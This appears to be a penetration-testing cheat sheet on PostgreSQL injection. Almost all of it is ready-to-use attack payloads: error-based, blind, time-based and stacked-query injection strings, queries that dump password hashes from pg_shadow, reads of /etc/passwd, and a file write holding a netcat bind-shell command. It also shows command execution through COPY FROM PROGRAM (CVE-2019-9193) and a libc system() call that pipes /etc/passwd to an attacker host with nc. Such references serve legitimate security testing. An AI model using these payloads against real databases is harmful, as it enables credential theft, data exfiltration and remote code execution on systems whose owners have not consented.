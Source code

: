 # PostgreSQL injection

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL version](#postgresql-version)
* [PostgreSQL Current User](#postgresql-current-user)
* [PostgreSQL List Users](#postgresql-list-users)
* [PostgreSQL List Password Hashes](#postgresql-list-password-hashes)
* [PostgreSQL List Database Administrator Accounts](#postgresql-list-database-administrator-accounts)
* [PostgreSQL List Privileges](#postgresql-list-privileges)
* [PostgreSQL database name](#postgresql-database-name)
* [PostgreSQL List databases](#postgresql-list-database)
* [PostgreSQL List tables](#postgresql-list-tables)
* [PostgreSQL List columns](#postgresql-list-columns)
* [PostgreSQL Error Based](#postgresql-error-based)
* [PostgreSQL XML Helpers](#postgresql-xml-helpers)
* [PostgreSQL Blind](#postgresql-blind)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL Stacked query](#postgresql-stacked-query)
* [PostgreSQL File Read](#postgresql-file-read)
* [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command execution](#postgresql-command-execution)
    * [CVE-2019–9193](#cve-20199193)
    * [Using libc.so.6](#using-libcso6)
* [References](#references)

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL Version

```sql
SELECT version()
```

## PostgreSQL Current User	

```sql
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## PostgreSQL List Users

```sql
SELECT usename FROM pg_user
```

## PostgreSQL List Password Hashes

```sql
SELECT usename, passwd FROM pg_shadow 
```
## PostgreSQL List Database Administrator Accounts
```sql
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
## PostgreSQL List Privileges

```sql
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

## PostgreSQL Database Name

```sql
SELECT current_database()
```

## PostgreSQL List Database

```sql
SELECT datname FROM pg_database
```

## PostgreSQL List Tables

```sql
SELECT table_name FROM information_schema.tables
```

## PostgreSQL List Columns

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL Error Based

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML helpers

```sql
select query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
select database_to_xml(true,true,''); -- dump the current database to XML
select database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.

## PostgreSQL Blind

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

## PostgreSQL Time Based

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL File Read

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer version (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or user's in the `default_role_read_server_files` group.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```sql
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

## PostgreSQL Command execution

### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)](https://hackerone.com/reports/181803)
* [POSTGRESQL 9.X REMOTE COMMAND EXECUTION - 26 Oct 17 - Daniel](https://www.dionach.com/blog/postgresql-9x-remote-command-execution)
* [SQL Injection and Postgres - An Adventure to Eventual RCE - May 05, 2020 - Denis Andzakovic](https://pulsesecurity.co.nz/articles/postgres-sqli)
